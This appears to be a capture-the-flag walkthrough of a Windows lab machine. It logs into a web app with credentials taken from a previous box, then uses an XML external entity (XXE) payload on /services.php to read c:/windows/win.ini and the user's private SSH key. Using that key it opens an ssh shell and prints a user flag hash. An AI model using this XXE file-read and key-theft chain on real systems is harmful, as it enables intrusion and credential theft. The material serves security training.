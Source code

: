 We can use the creds we exfil'd from the last box to log into the web app
`Daniel:>SNDv*2wzLWf`

Once we are logged in we see there is form submission on the `/services.php` page. Using burpsuite we see this is sent in XML format.

We can google XML injection which leads us to XXE (xml external entity) injection

https://portswigger.net/web-security/xxe


---

We can use this to try to enumerate files on the system.
This part is tricky because we don't always know what to look for. We know this is a windows system though.

One thing you can test for is if you get `c:/windows/win.ini` returned. This file is on every windows system.

We would first define a variable and payload in the `quantity` field, then call it in the `item` field

```xml
<?xml version = "1.0"?>
<!DOCTYPE asdf [<!ENTITY payload SYSTEM "file:///c:/windows/win.ini"> ]>
<order>
	<quantity>
	asdf
	</quantity>
	<item>
	&payload;
	</item>
	<address>
	asdf
	</address>
</order>
```

---

Viewing the source on the `services.php` page reveals username "Daniel". We also know that ssh port is open

Googling reveals that ssh keys are generall stored in:
`c:\users\<user>\.ssh\id_rsa`

We run a query using the injection above and we get Daniel's id_rsa. Make sure you do not grab the .pub id_rsa. We need the private key.

```
-----BEGIN OPENSSH PRIVATE KEY-----
BLAHBLAHBLAHASDSADSADSADAS
-----END OPENSSH PRIVATE KEY-----
```

We can throw this into our own `id_rsa` file and ssh in
REMEMBER TO CHMOD 400
`ssh -i id_rsa daniel@10.10.10.49`

We get a shell and also grab `user.txt` from Daniel's Desktop
`032d2fc8952a8c24e39c8f0ee9918ef7`


